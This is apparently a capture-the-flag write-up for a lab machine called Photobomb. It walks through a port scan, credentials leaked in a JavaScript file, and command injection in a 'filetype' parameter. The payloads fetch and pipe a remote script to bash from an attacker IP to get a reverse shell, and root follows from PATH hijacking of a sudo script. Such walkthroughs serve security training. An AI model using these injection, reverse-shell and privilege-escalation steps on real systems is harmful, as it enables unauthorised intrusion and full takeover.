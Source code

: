 # Photobomb

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.60                                    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:14 EDT
Warning: 10.129.228.60 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.228.60
Host is up (0.0056s latency).
Not shown: 51828 closed tcp ports (conn-refused), 13705 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `photobomb.htb` to our `/etc/hosts` file to view port 80

### JS Credentials

The webpage looks like a corporate page:

<figure><img src="../../../.gitbook/assets/image (2653).png" alt=""><figcaption></figcaption></figure>

When we click the link, it redirects us to some gallery.

<figure><img src="../../../.gitbook/assets/image (2798).png" alt=""><figcaption></figcaption></figure>

Since the page mentions there are credentials, we can view the page source to find `photobomb.js` containing some credentials:

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

These credentials don't tell me anything new, so let's move on. At the bottom of the gallery, we can download images.&#x20;

<figure><img src="../../../.gitbook/assets/image (1409).png" alt=""><figcaption></figcaption></figure>

Here's the request generated when we download a photo:

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1



photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

I didn't know how this was handling photos, but the long processing time between requests indicates to me that these photos might be dynamically generated instead of having all the possible combinations of photos stored on the website. This means that the parameters could be passed into a command, and then the image is returned.&#x20;

I tried some basic command injection, and found that the `filetype` parameter was vulnerable:

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1



photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl+10.10.14.13/rcecfm&dimensions=3000x2000
```

<figure><img src="../../../.gitbook/assets/image (1899).png" alt=""><figcaption></figcaption></figure>

With this, we can use `curl 10.10.14.13/shell.sh|bash` to get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag from the home directory.

## Privilege Escalation

### Sudo Privileges

The user is able to run a script as `root`.

```
wizard@photobomb:/tmp$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

SETENV just means that the current environment is used instead and that we can specify the environment variables before running the command:

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}

Here's the script:

```bash
wizard@photobomb:/tmp$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

The `find` binary does NOT have an absolute path, which means we can create a binary called `find` that executes a reverse shell and change our PATH variable to execute it first.

First, create a file called `find` with a malicious command:

```bash
$ cat find                   
#!/bin/bash

chmod +s /bin/bash
```

Afterwards, download this to the machine and make it executable. Then, just run this:

```bash
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

This would make `/bin/bash` an SUID binary.

<figure><img src="../../../.gitbook/assets/image (1068).png" alt=""><figcaption></figcaption></figure>

Rooted!
